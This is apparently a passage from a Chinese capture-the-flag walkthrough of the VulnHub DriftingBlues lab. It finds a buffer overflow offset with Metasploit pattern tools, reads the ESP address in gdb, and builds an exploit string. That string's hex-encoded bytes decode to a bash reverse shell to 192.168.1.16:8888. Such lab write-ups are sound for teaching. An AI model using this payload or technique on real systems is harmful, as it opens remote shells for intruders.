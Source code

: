 ![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\17.jpg)

可以看到`EIP`和`ESP`都是A，EIP是进行跳转执行指令地址的，ESP是指令寄存处

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\18.jpg)

那么这时候测试其偏移量为多少，使用`msf`生成无规律的字符

```shell
msf-pattern_create -l 600
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\19.jpg)

然后把这一串字符，复制，与上面一样，在打开文件时，写入

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\20.jpg)

![21](D:\stu\vulnhub\DriftingBlues靶场\pic-9\21.jpg)

再使用`msf`查看这个字符所处的位置

```shell
msf-pattern_offset -l 600 -q 41376641
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\22.jpg)

OK，确定偏移量为171，那么从172开始的四个字符就是EIP的地址，也是需要重点关注的，并且再测试确实后面跟着的就是ESP中的内容。

下面就是需要寻找到ESP的地址，方便在覆盖EIP时，确保地址是ESP的地址，这么就可以在ESP中写入反弹命令

不过，这里一直使用的图形化界面`edb`，也要使用`gdb`，毕竟有些时候条件有限，所以这个工具也要会用

> 这里可以在`kali`中继续测试，不过我这里为了省时间，在靶机内测试，因为靶机内可以使用gdb，并且如果在kali中处理，还有一些环境问题需要解决。

下面在靶机内使用`gdb`测试，因为已经知道偏移量等，这里直接获取`ESP`地址

```shell
gdb input
(gdb)r $(python -c 'print("A"*300)')
(gdb)x/s $esp
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\23.jpg)

获取到地址`0xbfae41b0`，这时候就可以进行构造`payload`，因为这里是小端序字节，所以地址需要倒写`\xb0\x41\xae\xbf`



```shell
$(python -c 'print("A"*171+"\xb0\x41\xae\xbf"+"\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x36\x2f\x38\x38\x38\x38\x20\x30\x3e\x26\x31\x27")')
```

再次构造后，把上面的语句进行测试，可以看到确实是小端序吧，并且发现`ESP`地址改变，说明靶机内的`alsr`是开启的，地址就会动态变化

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\24.jpg)
